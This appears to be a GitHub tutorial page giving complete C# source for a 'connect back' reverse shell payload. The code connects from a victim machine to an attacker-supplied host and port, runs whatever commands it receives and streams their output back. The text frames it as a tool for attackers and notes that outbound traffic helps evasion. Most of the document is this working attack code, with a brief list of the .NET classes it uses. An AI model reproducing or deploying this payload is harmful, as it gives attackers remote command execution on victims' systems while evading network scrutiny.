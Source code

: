 ## We write a program which allows an attacker to start a listener and listen for a connection back from a victim host.

- We use the following classes:

> TCPClient - to create a new TCPClient object.

> Stream - to create a stream to read/wrtie to.

> StreamReader - read commands from incoming stream.

> Process and ProcessStartInfo(add/control certain options in Process()) - run commands from an attacker using a new process.

- We use the Split method to split commands into their respective filenames and arguments.

- Helps in evasion, egress traffic from a victim host is less scrutinized.

## Code:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Connect_Back_Payload
{
    public class MainClas
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Welcome to your connect back shell\n- Enter a command on your attacker terminal to continue\n");
            // Convert only port from str to int
            using (TcpClient client = new TcpClient(args[0], int.Parse(args[1])))
            {
                //Read/Write to stream
                using (Stream stream = client.GetStream())
                {
                    //Read cmds from attacker
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        //Read from stream as long as attacker sends cmds
                        while (true)
                        {
                            string cmd = rdr.ReadLine();
                            // If empty
                            if (string.IsNullOrEmpty(cmd))
                            {
                                rdr.Close();
                                stream.Close();
                                client.Close();
                                return;
                            }
                            // Contains only whitespace
                            if (string.IsNullOrWhiteSpace(cmd))
                                continue;

                            //Split cmd into cmd and args
                            string[] split = cmd.Trim().Split(' ');
                            string filename = split.First();
                            string arg = string.Join(" ", split.Skip(1));

                            //Run cmd and return output
                            try
                            {
                                Process prc = new Process();
                                prc.StartInfo = new ProcessStartInfo();
                                prc.StartInfo.FileName = filename;
                                prc.StartInfo.Arguments = arg;
                                //Execute cmds in same shell context
                                prc.StartInfo.UseShellExecute = false;
                                prc.StartInfo.RedirectStandardOutput = true;
                                prc.Start();
                                //Copy stdout to stream and send to attacker
                                prc.StandardOutput.BaseStream.CopyTo(stream);
                                prc.WaitForExit();
                            }
                            catch
                            {
                                string error = "[+] Error running command: " + cmd + "\n";
                                byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                stream.Write(errorBytes, 0, errorBytes.Length);
                            }
                                
                            
                        }
                    }


                }

            }
        }
    }
}

```

## Output:

![Image](connect_back.png)
